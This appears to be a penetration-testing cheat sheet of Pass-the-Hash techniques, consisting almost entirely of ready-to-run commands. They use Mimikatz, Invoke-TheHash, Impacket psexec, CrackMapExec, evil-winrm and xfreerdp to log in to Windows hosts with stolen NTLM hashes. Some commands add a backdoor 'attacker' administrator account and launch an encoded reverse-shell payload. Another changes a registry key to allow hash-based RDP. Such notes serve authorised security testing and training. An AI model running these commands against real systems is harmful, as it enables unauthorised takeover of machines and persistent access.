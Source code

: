 # Pass the Hash

## Mimikatz

```batch
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:<user> /rc4:<hash> /domain:<domain> /run:cmd.exe" "exit"
```

## Invoke-TheHash

### SMBExec

```powershell
Import-Module .\Invoke-TheHash.psd1
Invoke-SMBExec -Target <ip> -Domain <domain> -Username <user> -Hash <hash> -Command "net user attacker Password123 /add && net localgroup administrators attacker /add" -Verbose
```

### WMIExec with reverse shell

Create a reverse shell using [RevShells](https://www.revshells.com/).

```powershell
Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target <target> -Domain <domain> -Username <user> -Hash <hash> -Command "powershell -e <base64 encoded payload>"
```

## Impacket

### PsExec

```bash
impacket-psexec <user>@<ip> -hashes :<hash>
```

## CrackMapExec

```bash
crackmapexec smb <ip> -u <user> -d . -H <hash>
```

:::info Local Authentication

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command.

:::

## evil-winrm

```bash
evil-winrm -i <ip> -u <user> -H <hash>
```

## RDP with GUI

:::caution Restricted Admin Mode

Restricted Admin Mode, which is disabled by default, should be enabled on the target host.

This can be enabled by adding a new registry key `DisableRestrictedAdmin (REG_DWORD)` under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of `0`. It can be done using the following command:

```batch
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

:::

### xfreerdp

```bash
xfreerdp /v:<ip> /u:<user> /pth:<hash>
```

